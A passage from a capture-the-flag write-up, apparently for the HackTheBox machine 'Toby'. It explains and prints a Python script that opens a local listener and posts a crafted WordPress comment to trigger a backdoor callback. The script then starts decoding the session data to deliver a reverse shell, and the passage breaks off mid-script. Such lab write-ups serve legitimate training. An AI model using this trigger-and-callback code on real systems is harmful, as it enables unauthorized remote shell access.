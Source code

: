 In case I need to come back and get a shell again, I’ll update my script to
handle the POST request as well as the sending of the command. It takes my
local IP and the port I want a shell on. First it sets up the listening port.
If I don’t do this first, the response can come in before I’m listening for
it. But `s.listen(1)` isn’t blocking, so I can call that and then continue.
Next I’ll send the POST to trigger the connection back on 20053. After that,
I’ll accept the connection, and send the reverse shell.

    
    
    #!/usr/bin/env python3
    
    import requests
    import socket
    import sys
    from binascii import unhexlify
    
    
    if len(sys.argv) != 3:
        print(f"Get shell from wordpress.toby.htb\n\n{sys.argv[0]} LHOST LPORT")
        sys.exit()
    
    ip = sys.argv[1]
    port = sys.argv[2]
    
    # set up listener
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(('0.0.0.0',20053))
    s.listen(1)
    
    # trigger connection
    try:
        requests.post('http://wordpress.toby.htb/wp-comments-post.php',
            data = {"comment": f"746f6279{ip}", "author": "0xdf",
                "email": "help@toby.htb", "url": "http://test.toby.htb/",
                "wp-comment-cookies-consent": "yes", "submit": "Post Comment",
                "comment_post_ID": "5", "comment_parent": "0"},
            timeout = 0.5)
    except requests.exceptions.Timeout:
        pass
    
    # accept and request shell
    c, address = s.accept()
    print(f'[+] Connection from {address[0]}')
    data = c.recv(1024)
    guid, hex_msg = data.split(b'|')
    print(f'[*] Session ID: {guid}')
    msg = unhexlify(hex_msg.strip())
    xor_msg = unhexlify(msg.split(b':')[-1])
    xor_chr = xor_msg.split(b'_')[2]
    assert(len(xor_chr) == 1)
    